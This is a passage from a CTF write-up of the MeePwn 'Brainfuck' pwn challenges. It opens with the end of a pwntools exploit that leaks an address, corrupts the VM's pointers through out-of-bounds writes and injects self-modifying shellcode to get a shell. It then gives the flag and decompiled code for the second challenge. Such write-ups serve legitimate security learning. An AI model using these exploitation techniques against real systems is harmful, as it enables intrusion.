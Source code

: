 ```python
    
    # leak mmap address 
    payload = "<"*0x28 # move to &bf_data->sc_buf
    payload += ".>"*8

    cmd(payload)
    sc_base = u64(r.recvuntil(">>")[:8:]) >> 8
    r.unrecv(">>")
    log.success("sc_base: "+hex(sc_base))
    
    # make size = 0x400 so it won't clear our shellcode
    write(-0x10, p64(0x400))
    # change bf_data->dp = our shellcode buffer
    write(-0x30, p64(sc_base+0x800))
    # write final shellcode to our shellcode buffer
    write(0, sc)
    # write to bf_data->sc_buf ( it will become a self-modified shellcode)
    init_sc = asm("mov rax, %s" % hex(sc_base+0x800))
    init_sc += asm("call rax")
    print "init_sc", init_sc.encode('hex')
    print "len:", len(init_sc)
    write(-0x70d, init_sc)
    r.interactive()
```

flag: `MeePwnCTF{this_is_simple_challenge_:banana-dance:}`


## Brainfuck2

For Brainfuck2, the binary is basically the same as Brainfuck1, except it has the following exectuting process:

```c++
BrainFuckVM *__fastcall BrainFuckVM::run(BrainFuckVM *this)
{
    char *sc_buf; // ST20_8@1
    BrainFuckVM *v2; // ST18_8@1
    BrainFuckVM *result; // rax@3

    sc_buf = this->sc_buf;
    v2 = this;
    /* allocate + memset bf_data->dp */
    this->dp = (char *)operator new[](0x100uLL);
    memset(this->dp, 0, 0x100uLL);
    /* set the sc_buf's permission to r-x*/
    mprotect(v2->sc_buf, v2->sc_size, 5); 
    ((void (__fastcall *)(char *))sc_buf)(this->bf_mem);
    /* set the sc_buf's permission back to rw-*/
    mprotect(v2->sc_buf, v2->sc_size, 3);
    this->sc_pos = 0LL;
    memset(v2->sc_buf, 0, v2->sc_size);
    /* free bf_data->dp */
    if ( this->dp )
      operator delete(this->dp);
    result = this;
    this->dp = 0LL;
    return result;
}
```
